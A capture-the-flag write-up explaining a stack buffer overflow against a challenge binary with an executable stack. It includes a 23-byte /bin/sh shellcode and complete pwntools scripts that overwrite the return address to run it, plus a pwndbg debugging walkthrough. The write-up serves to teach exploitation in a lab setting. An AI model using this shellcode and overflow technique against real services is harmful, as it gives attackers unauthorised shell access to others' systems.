






[Source code](./handout/Bug_Bounty_5)

So for this challenge there is no `print_flag` function :(  
How are we going to do ?

When we run `checksec challenge`  we get this:



It says that the stack is executable!  
An **executable stack** is a region of a memory that has permissions set to allow the execution of **machine code** directly from it.

We have control over what we put in the `name` variable and we are given his address in memory.

We need to:
1. Write a **shellcode** in `name`
2. Overwrite the return address of the program with the address of our shellcode (the `name`  address) as we did in previous challenges

But be aware that name is 48 bytes so we need to find a shellcode less than 48 bytes.

By google searching, I found this one:
```bash
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```
Who is 23 bytes long and will execute `/bin/sh`  

Information to consider:    
1. The variable `name` is 48 bytes so we need to fill the remaining 25 bytes of `name` with `\x00` after the shellcode
2. Just after `name` there is a register called `RBP` we need to overwrite with 8 bytes
3. Overwrite the return address of the program with the address of our shellcode (name address)

Exploit time!
```python
from pwn import *

# Connect to the remote instance
HOST = "chal.sigpwny.com"
PORT = 1347
conn = remote(HOST, PORT)

#Receive the prompt
res = conn.recvuntil(b' at ')
print(res.decode())

# Extract name address
name_addr = int(conn.recvuntil(b'\n').strip(), 16)
# Print it just for information
log.info(f"name_addr = {hex(name_addr)}")

#/bin/sh shellcode of 23 bytes + 25 \x00 to fill name now 8*B to fill rbp and now write name_addr to run the shellcode at this address

exploit = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05" + b"\x00"*25 + b'B'*8 + p64(name_addr)

# Send exploit
conn.sendline(exploit)

# Drop to an interactive shell to interact with the process
conn.interactive()
``` 



In this challenge the stack is not displayed by the program. The binary is given, so we can analyse it locally with gdb/pwndbg

Let's showcase the stack, registers and backtrace in gdb/pwndbg with the following script:

```python
from pwn import *

conn = gdb.debug('./challenge', gdbscript='''
	source /opt/tools/gdb/pwndbg/gdbinit.py # ajust this line to your "gdbinit.py" file. If gdb start directly with pwndbg you can delete this line
	b *vuln+71
	c
''')

# Receive the prompt
res = conn.recvuntil(b' at ')
print(res.decode())

# Extract name address
name_addr = int(conn.recvuntil(b'\n').strip(), 16)
log.info(f"name_addr = {hex(name_addr)}")

exploit = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05" + b"\x00"*25 + b'B'*8 + p64(name_addr)

print(f"Sending {exploit}")
# Send the exploit

conn.sendline(exploit)

# Drop to an interactive shell to interact with gdb
conn.interactive()
``` 

With this script, gdb/pwndgb will stop just after we sent the payload

Here is what it will look like:


After the exploit sent, we can see in the `BACKTRACE` section that after our breakpoint at `vuln+71` the next instruction to be executed is the address `name` so our shellcode.

By running the command `stack 20`, we can see that the `RBP` has been successfully overwrite with 8 B's



With the `hexdump` command followed by the address of `name`, you get a nice display of the stack (like the previous print_flag function) at the breakpoint we are



There is much more commands and more things to explore with gdb/pwndbg.  
This is just a showcase :)

[Bug Bounty 6](./Bug_Bounty_6.md)
